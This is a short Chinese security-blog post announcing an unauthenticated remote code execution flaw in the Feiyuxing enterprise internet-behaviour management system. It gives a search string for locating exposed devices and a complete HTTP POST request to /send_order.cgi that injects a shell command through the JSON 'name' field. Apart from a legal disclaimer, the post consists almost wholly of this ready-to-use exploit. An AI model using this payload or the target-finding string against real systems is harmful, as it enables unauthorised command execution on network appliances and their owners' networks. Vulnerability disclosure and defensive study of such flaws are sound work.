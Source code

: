 #  0day！！0day！！—RCE—飞鱼星上网行为管理系统企业版前台   
红队传奇林先生  月落安全   2024-03-20 23:52  
  
**免责声明**  
  
**月落星沉研究室的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他违法行为！！！**  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/DBoCyk48rwBO8CmYFIwBB2FIDKdqdviae7cB0A0UlTm0ZpjF9MEBX4zlXg0qwFCRxoBOyuOMpft1bxROqbibmFicQ/640?wx_fmt=gif "")  
  
**飞鱼星上网行为管理系统企业版前台RCE**  
  
**title="飞鱼星企业"**  
  
影响版本：  
飞鱼星企业级智能上网行为管理系统企业版  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/DBoCyk48rwAUMmLHIxRgUvX3WSnCe8l5icib0ANWXeFyyORlQdU0cRAFGtshAnOBA85OaGx8ldpBmSHAnFeicC2Xw/640?wx_fmt=gif "")  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DBoCyk48rwDfFjtc749M6AsGw4DrApHvnGpPONVupEvME73cPJKEvto3vmWVbVqkhwLgUobfGSeXQOXtnKG9eQ/640?wx_fmt=png&from=appmsg "")  
```
POST /send_order.cgi?parameter=operation HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

{"opid":"777777777777777777","name":";uname -a;echo ","type":"rest"}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DBoCyk48rwDfFjtc749M6AsGw4DrApHvbqtqw6FxA7QEPfFHlgM2YhskTka6UQQyiaQxdes4qLsYzHka2qFb1nQ/640?wx_fmt=png&from=appmsg "")  
  
easy！！！  
  
